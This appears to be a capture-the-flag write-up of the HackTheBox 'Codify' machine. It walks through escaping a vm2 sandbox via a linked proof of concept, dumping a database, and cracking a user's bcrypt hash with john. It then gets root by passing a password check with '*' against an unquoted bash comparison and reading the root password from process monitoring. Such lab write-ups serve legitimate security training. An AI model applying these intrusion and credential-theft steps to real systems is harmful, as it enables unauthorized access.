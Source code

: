 ```yaml
---
layout: post
title: HTB-Codify
published: true
---
```


# Codify machine on [hackthebox](https://app.hackthebox.com)


### Enumeration

Let's start with nmap scan:
```nmap
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Seeing the result we see we have ssh, and two web servers, to save your time, the two are completely identical, so let's start going to the website and see what do we have:

![](../assets/images/codify/20240406210502.png)
So we see a website that we can use to test our JS code, but of course with limitations (for obvious reasons :D).
We use `require('fs').ReadFile('/etc/passwd')` trying to read a file, but we fail, so let's explore what else could be there. 
![](../assets/images/codify/20240406210840.png)

And we get this in the `about` page:
![](../assets/images/codify/20240406211207.png)
We are interested in this part, it shows what they are using for sand-boxing this editor
```
The [vm2](https://github.com/patriksimek/vm2/releases/tag/3.9.16) library is a widely used and trusted tool for sandboxing JavaScript. It adds an extra layer of security to prevent potentially harmful code from causing harm to your system. We take the security and reliability of our platform seriously, and we use vm2 to ensure a safe testing environment for your code.
```
The vm2 is a discontinued project, so going into the github repo [here](https://github.com/patriksimek/vm2/releases/tag/3.9.16), will show us a lot of vulnerabilities.

### Exploitation


One of them ([this one](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac)), even has a PoC in it that we can use to issue commands on the system and escape the sandbox.
![](../assets/images/codify/20240406211639.png)
And it worked! we managed to execute `whoami;id`, so let's get a reverse shell.
And we get a shell as `svc` on the box, let's start enumerating

Going into `/var/www/` we can see the folder for this website (editor), and another one called "contact", which also have a Database file, so let's examine it.

It is a sqlite3 database, so let's dump it using:
```bash
sqlite3 tickets.db .dump
```
And we get the following:
```bash
<SNIP>
VALUES(3,'joshua','$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2');
CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT);
<SNIP>
```
We get a hash! Let's take it and crack it locally using john.

```bash
echo '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' >> joshua.hash

john --wordlist=/opt/wordlists/rockyou.txt joshua.txt
```
And we got the password!
```bash
john --show joshua.hash

?:sp<REDACTED>ob1

1 password hash cracked, 0 left
```
So now is the time for root...

### PE

Doing `sudo -l`, we see we can execute a script:
```bash
User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
Taking a look at it, it's doing some stuff related to the database in there, and here is the interesting snippet:

```bash
<SNIP>

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
<SNIP>

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

<SNIP>
```
If we get authenticated, it will issue a command which will use the root password for the database, but how do we get authenticated?

Well staring enough in the above code, we can notice some sort of wildcard abuse chance, see the comparison here is missing because the `$USER_PASS` is not warped in quotes, so what if we inserted `*` ? 
```bash
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
```
We get Password confirmed! so let's try to authenticate to this and also monitor processes using `pspy64` and maybe we can look at the command and get the password.
After running the script, and running pspy too, we wait a bit and see the following:
```bash
<SNIP> 
2024/04/06 18:47:00 CMD: UID=0     PID=21846  | /bin/bash /opt/scripts/mysql-backup.sh 
2024/04/06 18:47:00 CMD: UID=0     PID=21848  | /bin/bash /opt/scripts/mysql-backup.sh 
2024/04/06 18:47:00 CMD: UID=0     PID=21847  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljhREDACTED2kjh3 mysql 
2024/04/06 18:47:01 CMD: UID=0     PID=21849  | 
<SNIP>
```

So trying this password for the root user:
```bash
joshua@codify:/opt/scripts$ su -
Password: 
root@codify:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
root@codify:~# 

```
It works!

And the box is done! Thanks for reading!

Happy hacking :)
